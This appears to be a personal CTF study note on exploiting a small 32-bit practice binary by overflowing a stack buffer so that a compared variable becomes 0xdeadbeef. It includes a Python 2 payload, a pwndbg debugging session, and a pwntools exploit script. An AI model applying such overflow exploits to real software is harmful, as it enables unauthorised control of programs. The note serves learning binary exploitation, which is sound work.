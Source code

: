 note to self: pwn tools is installed in the venv. 
### Overwriting stack variables 2 

file:
```
overwrite: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=094cbdd4694e5f4aeb958401302aadc77be2c5f0, for GNU/Linux 3.2.0, not stripped
```

checksec:
```
└─$ checksec --file=overwrite
- Partial RELRO
- NO Stack canary 
- NX disabled 
- NO pie 

```


#### Manual exploit with python: NEEDS TO BE PYTHON 2
```
payload = 'A'*32+"\xef\xbe\xad\xde"
file = open("payload", "w")
file.write(payload)

print(payload)
```

- Work in python2 since `'A'*32+"\xef\xbe\xad\xde"` is considered raw bytes, in python3 its considered a string. 


This payload we can send to the file:
```
└─$ ./overwrite < payload
yes? good job!!
deadbeef
```


#### Using gdb-pwndbg: 

From ghidra we find a place where we compare the input of the users to a hex value. We take this memory address and set a breakpoint:
`break *0x080491e0`

```
Running it we stop at the breakpoint, and check the compare statement:
cmp dword ptr [ebp - 0xc], 0xdeadbeef 

We want this to be true, so we check the actual value in the memory location:

pwndbg> x $ebp - 0xc
0xffffcfdc:     0x12345678

And we can see its not equal to 0xdeadbeef. 


We could set it to decired value manually:
pwndbg> set *0xffffcfdc = 0xdeadbeef
pwndbg> x $ebp - 0xc
0xffffcfdc:     0xdeadbeef

If we run continue, we get the decired result. 
```

- Note this would be "cheating" since we could not exploit this program running on a server with this approach. 


#### Using Pwn Tools:
```
└─$ cat exploit.py
from pwn import *

# Start program
io = process('./overwrite')

# Send string to overflow buffer
io.sendlineafter(b'?', b'A' * 32 + p32(0xdeadbeef))

# Receive output
print(io.recvall().decode())
```

- Start our program as a process
- After we are prompted with a '?' we send 32 As and 0xdeadbeef packed for a ?32 bit program?
- Then we print the output and decode it to readable format. 
